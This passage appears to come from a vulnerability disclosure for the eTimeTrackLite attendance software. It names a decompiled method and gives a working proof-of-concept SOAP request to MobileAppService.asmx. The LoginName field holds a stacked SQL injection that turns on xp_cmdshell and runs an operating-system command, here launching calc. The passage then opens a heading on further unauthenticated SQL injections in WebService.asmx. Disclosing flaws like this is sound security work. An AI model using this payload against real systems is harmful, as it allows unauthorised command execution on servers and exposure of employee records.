eTimeTrackLiteLibrary.Manage.MobileServiceManagement.GetEmployeesDetailsByLoginName(string, ref DataSet, ref ErrorObj) : void @06000B57

![image-20250516174331357](eTimeTrackLite/image-20250516174331357.png)

poc

```http
POST /MobileAppService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/GetEmployeeDetailForQRCode"
Content-Length: 462
Host: 192.168.1.222:83
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetEmployeeDetailForQRCode>
         <tem:LoginName>x';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';select 'x
</tem:LoginName>
      </tem:GetEmployeeDetailForQRCode>
   </soapenv:Body>
</soapenv:Envelope>
```



### Multiple unauthorized SQL injections in WebService.asmx

WebService.UserLogin(string, string) : int @06000350
